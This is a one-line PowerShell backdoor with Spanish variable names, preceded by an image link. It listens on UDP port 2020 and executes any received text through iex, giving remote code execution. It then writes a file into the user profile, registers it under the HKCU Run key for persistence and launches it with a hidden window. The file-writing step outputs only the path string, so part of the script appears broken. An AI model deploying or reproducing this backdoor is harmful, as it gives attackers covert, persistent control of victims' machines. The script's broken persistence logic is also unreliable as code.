 
$port=2020; $endpoint = new-object System.Net.IPEndPoint ([IPAddress]::Any,$port); $udpclient=new-Object System.Net.Sockets.UdpClient $port; $content=$udpclient.Receive([ref]$endpoint); [Text.Encoding]::ASCII.GetString($content) | iex; $udpclient.Dispose(); $env:HOMEDRIVE + "\Users\" + "$env:USERNAME\script.ps1" | Out-File -Force; $rutaScript = $env:HOMEDRIVE + "\Users\" + "$env:USERNAME\script.ps1"; $nombreEntrada = "MiScript"; $valorEntrada = "powershell.exe -File $rutaScript"; New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name $nombreEntrada -Value $valorEntrada; Start-Process -FilePath "powershell.exe" -ArgumentList "-WindowStyle Hidden -File $rutaScript" -NoNewWindow -PassThru


